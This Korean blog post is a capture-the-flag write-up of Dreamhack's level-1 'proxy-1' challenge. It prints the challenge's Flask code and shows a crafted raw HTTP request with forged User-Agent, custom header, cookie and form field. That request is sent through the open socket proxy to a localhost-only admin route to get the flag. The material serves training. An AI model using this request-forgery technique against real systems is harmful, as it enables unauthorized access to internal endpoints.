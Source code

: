 ```yaml
---
title: (1) Dreamhack proxy-1 문제 풀이
date: 2024-01-06 +09:00
categories:
  - 웹해킹
tags:
  - [웹해킹, 드림핵]
---
```

{% raw %}
## 문제 설명
Raw Socket Sender가 구현된 서비스입니다.  
요구하는 조건을 맞춰 플래그를 획득하세요. 플래그는 flag.txt, FLAG 변수에 있습니다.

## 문제 풀이
일단 사이트에 접속해 봅니다.
![](https://kyuyeop.github.io/assets/img/post/1/1.png)
이런 사이트가 나타납니다. Raw Socket Sender에서 플래그를 획득해야 하니 들어가 봅니다.
![](https://kyuyeop.github.io/assets/img/post/1/2.png)
사이트만 봐도 host port data의 입력값을 그대로 보내줄것 같이 생겼습니다. 이제 코드를 확인해 봅시다.
```python
#!/usr/bin/python3
from flask import Flask, request, render_template, make_response, redirect, url_for
import socket

app = Flask(__name__)

try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/socket', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('socket.html')
    elif request.method == 'POST':
        host = request.form.get('host')
        port = request.form.get('port', type=int)
        data = request.form.get('data')

        retData = ""
        try:
            with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
                s.settimeout(3)
                s.connect((host, port))
                s.sendall(data.encode())
                while True:
                    tmpData = s.recv(1024)
                    retData += tmpData.decode()
                    if not tmpData: break
            
        except Exception as e:
            return render_template('socket_result.html', data=e)
        
        return render_template('socket_result.html', data=retData)


@app.route('/admin', methods=['POST'])
def admin():
    if request.remote_addr != '127.0.0.1':
        return 'Only localhost'

    if request.headers.get('User-Agent') != 'Admin Browser':
        return 'Only Admin Browser'

    if request.headers.get('DreamhackUser') != 'admin':
        return 'Only Admin'

    if request.cookies.get('admin') != 'true':
        return 'Admin Cookie'

    if request.form.get('userid') != 'admin':
        return 'Admin id'

    return FLAG

app.run(host='0.0.0.0', port=8000)
```
flask로 구현된 코드이고, socket페이지의 폼에서 입력된 값을 보낸 다음 값을 받아오는 걸 볼 수 있습니다.  
여기서 주의깊게 봐야할 곳은 admin페이지 입니다.
```python
@app.route('/admin', methods=['POST'])
def admin():
    if request.remote_addr != '127.0.0.1':
        return 'Only localhost'

    if request.headers.get('User-Agent') != 'Admin Browser':
        return 'Only Admin Browser'

    if request.headers.get('DreamhackUser') != 'admin':
        return 'Only Admin'

    if request.cookies.get('admin') != 'true':
        return 'Admin Cookie'

    if request.form.get('userid') != 'admin':
        return 'Admin id'

    return FLAG
```
코드를 보아하니 admin페이지에 post 형식으로 다음과 같은 데이터를 보내면 flag가 출력된다고 합니다.  
만약 잘못된 데이터를 보냈다면 그에 맞는 에러 메세지를 보내줄 겁니다.  
```
1.클라이언트 ip=127.0.0.1  
2.User-Agent 헤더=Admin Browser  
3.DreamhackUser 헤더=admin  
4.admin 쿠키=true  
5.form에서 전송된 userid=admin  
```

먼저 클라이언트 ip=127.0.0.1이어야 하고, 로컬에서 8000번 포트를 사용중이므로
```
host:127.0.0.1
port:8000
```
다음과 같이 설정해 줍니다. 2~5조건에 맞추어 data를 구성해봅니다.
```
POST /admin HTTP/1.1
Host: host3.dreamhack.games
```
먼저 기본적인 틀을 만들어 주었습니다.  
헤더로 전송되는 데이터 2개를 추가해보겠습니다. 헤더에서 데이터는 헤더:값 형태로 전달해 줄 수 있습니다.
```
POST /admin HTTP/1.1
Host: host3.dreamhack.games
User-Agent:Admin Browser
DreamhackUser:admin
```
쿠키는 cookie: 쿠키=값 형태로 전달합니다.
```
POST /admin HTTP/1.1
Host: host3.dreamhack.games
User-Agent:Admin Browser
DreamhackUser:admin
cookie: admin=true
```
form으로 userid를 보내줘야하기 때문에 Content-Type은 application/x-www-form-urlencoded로, Content-Length는 userid=admin의 길이인 12로 설정, body는 userid=admin으로 설정했습니다.
```
POST /admin HTTP/1.1
Host: host3.dreamhack.games
User-Agent:Admin Browser
DreamhackUser:admin
cookie: admin=true
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

userid=admin
```
![](https://kyuyeop.github.io/assets/img/post/1/3.png)
이렇게 설정하고 send를 누르면
![](https://kyuyeop.github.io/assets/img/post/1/4.png)
DH로 시작하는 flag를 얻을 수 있습니다. 
   
LEVEL 1에 해당하는 문제라 http requset의 데이터 구조만 알고 있다면 어렵지 않게 풀 수 있었습니다.  
저는 생각난 김에 http header 복습하로 가겠습니다.
{% endraw %}